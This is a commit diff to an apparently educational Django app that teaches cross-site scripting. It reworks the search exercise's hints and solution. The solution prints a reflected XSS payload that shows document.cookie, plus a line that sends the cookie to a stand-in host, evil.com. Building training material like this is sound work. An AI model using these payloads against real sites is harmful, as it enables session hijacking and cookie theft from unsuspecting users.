

Before and after one commit to krystofbezdek/WSED, a Django app: page /xss_app/search/ in a window 1280 px wide. Shown: the part 171-984 px from the top of the page, without its empty margins (226-1053 px from the left). Before the commit the page ends 856 px from the top, so only its background shows below. Run offline with Django 5.2, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Fixing some wordings, and layout and buttons of /search endpoint

```diff
--- a/xss_app/templates/xss_app/index.html
+++ b/xss_app/templates/xss_app/index.html
@@ -45,7 +45,7 @@
         <p>
             This tutorial is going to guide you through carrying out two of the most common XSS attacks and show you
             how to defend against them, even if you have no prior practical experience with these attacks.
-            There will be four exercises for you to complete, with hints and solutions available if needed.
+            There will be two exercises for you to complete, with hints and solutions available if needed.
             <br><br>
             This web application is used for creating, displaying and searching for blog posts made by users. It is
             quite vulnerable and you will exploit these vulnerabilities. You can see all the blog posts, the search bar,
--- a/xss_app/templates/xss_app/search.html
+++ b/xss_app/templates/xss_app/search.html
@@ -29,20 +29,20 @@
         <p>
             You have successfully searched for a blog post! It does not matter if your search yielded results, what
             matters is that you gained information about the search request! Specifically, there are two pieces of
-            information you need to test the vulnerability of this search request.
+            information you need to test the vulnerability of this search request. Think about the user input and how
+            it can be used to run a script.
         </p>
         <ol>
-            <li>Can you figure out what information it is?</li>
-            <li>Can you use this information to display this website's cookie on this page?</li>
-            <li>Can you craft a clickable link from this?</li>
+            <li>Can you figure out what information it is and use it to obtain this website's cookie on this page?</li>
+            <li>Can you craft a clickable link which could be sent to potential victim?</li>
         </ol>
-        <a class="btn btn-primary" href="{% url 'xss_app:index' %}#reflectedExercise" role="button">Back to Exercises</a>
-        <br><br><br>
+        <br>
         <div class="accordion" id="accordionExample">
+          <h4>Hints</h4>
           <div class="card">
             <div class="card-header" id="headingOne">
               <h2 class="mb-0">
-                <button class="btn btn-link collapsed" type="button" data-toggle="collapse" data-target="#hint1" aria-expanded="false" aria-controls="hint1">
+                <button class="btn btn-light btn-block collapsed" type="button" data-toggle="collapse" data-target="#hint1" aria-expanded="false" aria-controls="hint1">
                   Hint about the information revealed
                 </button>
               </h2>
@@ -51,10 +51,10 @@
               <div class="card-body">
                 <p>
                     You can read from the URL that it contains a single query parameter called 'q', which is used to search
-                    the blog posts. Furthermore, the presence of a parameter in the URL string reveals that a GET request is
-                    used, which is less secure than the POST request.
+                    the blog posts. Furthermore, you can see that the query value is rendered onto the web page.
+                    Lastly, the presence of a parameter in the URL string reveals that a GET request is used, which is
+                    less secure than the POST request.
                     <a href="https://www.baeldung.com/cs/http-get-vs-post" target="_blank">Read more about them here!</a>
-                    Lastly, you can see that the query value is rendered onto the web page as well.
                 </p>
               </div>
             </div>
@@ -63,7 +63,7 @@
           <div class="card">
             <div class="card-header" id="headingTwo">
               <h2 class="mb-0">
-                <button class="btn btn-link collapsed" type="button" data-toggle="collapse" data-target="#hint2" aria-expanded="false" aria-controls="hint2">
+                <button class="btn btn-light btn-block collapsed" type="button" data-toggle="collapse" data-target="#hint2" aria-expanded="false" aria-controls="hint2">
                   Hint about injecting inline script into HTML
                 </button>
               </h2>
@@ -79,45 +79,74 @@
           </div>
 
           <div class="card">
-            <div class="card-header" id="headingTwo">
+            <div class="card-header" id="headingThree">
               <h2 class="mb-0">
-                <button class="btn btn-link collapsed" type="button" data-toggle="collapse" data-target="#hint3" aria-expanded="false" aria-controls="hint3">
+                <button class="btn btn-light btn-block collapsed" type="button" data-toggle="collapse" data-target="#hint3" aria-expanded="false" aria-controls="hint3">
                   Hint about obtaining the cookie
                 </button>
               </h2>
             </div>
-            <div id="hint3" class="collapse" aria-labelledby="headingTwo">
+            <div id="hint3" class="collapse" aria-labelledby="headingThree">
               <div class="card-body">
                 <p>
-                    In order to access the website's cookie, you can use <b>document.cookie</b>. I would recommend trying this
-                    out by right clicking this website, choosing to "Inspect" it, and typing <b>document.cookie</b> into the
-                    console.
+                    In order to access the website's cookie, you can use the JavaScript method <b>document.cookie</b>.
+                    You can try this out manually by "Inspecting" the website and typing <b>document.cookie</b> into the console.
                 </p>
               </div>
             </div>
           </div>
 
           <div class="card">
-            <div class="card-header" id="headingThree">
+            <div class="card-header" id="headingFour">
               <h2 class="mb-0">
-                <button class="btn btn-link collapsed" type="button" data-toggle="collapse" data-target="#solution" aria-expanded="false" aria-controls="solution">
+                <button class="btn btn-light btn-block collapsed" type="button" data-toggle="collapse" data-target="#hint4" aria-expanded="false" aria-controls="hint4">
+                  Hint about obtaining/displaying contents
+                </button>
+              </h2>
+            </div>
+            <div id="hint4" class="collapse" aria-labelledby="headingFour">
+              <div class="card-body">
+                <p>
+                    The easiest and most straightforward ways of obtaining or displaying any value from a website
+                    using JavaScript methods would be either by displaying an alert
+                </p>
+                <pre class="code-snippet"><code>alert(somevalue);</code></pre>
+                <p>or by logging the value into the console</p>
+                <pre class="code-snippet"><code>console.log(somevalue);</code></pre>
+              </div>
+            </div>
+          </div>
+
+          <div class="card">
+            <div class="card-header" id="headingFive">
+              <h2 class="mb-0">
+                <button class="btn btn-info btn-block collapsed" type="button" data-toggle="collapse" data-target="#solution" aria-expanded="false" aria-controls="solution">
                   Solution
                 </button>
               </h2>
             </div>
-            <div id="solution" class="collapse" aria-labelledby="headingThree">
+            <div id="solution" class="collapse" aria-labelledby="headingFive">
               <div class="card-body">
                 <p>
-                This is the script you should insert as query parameter in order to cause an alert:
+                    This is one way of obtaining a cookie from website:
                 </p>
                 <pre class="code-snippet"><code>&lt;script&gt;alert(document.cookie);&lt;/script&gt;</code></pre>
                 <p>
-                    ...and this is how your link should look like:
+                    ...and this is how your link could look like:
                 </p>
                 <pre class="code-snippet"><code><a href="http://127.0.0.1:8000/xss_app/search/?q=<script>alert(document.cookie);</script>">http://127.0.0.1:8000/xss_app/search/?q=&lt;script&gt;alert(document.cookie);&lt;/script&gt;</a></code></pre>
+                <p>
+                    Displaying the victim's cookie to themselves is not very useful for the attacker. In a more realistic
+                    scenario, the attacker could, for example, send the value of the cookie to their malicious website
+                    as a parameter.
+                </p>
+                <pre class="code-snippet"><code>&lt;script&gt;window.location.replace("http://evil.com/?c=" + document.cookie)&lt;/script&gt;</code></pre>
               </div>
             </div>
           </div>
         </div>
+        <br><br>
+        <a class="btn btn-primary" href="{% url 'xss_app:index' %}#reflectedExercise" role="button">Back to Exercises</a>
+        <br><br>
     </div>
 {% endblock %}
```
Also changed, not shown: xss_app/templates/WSED/home.html (+19 -16 lines).
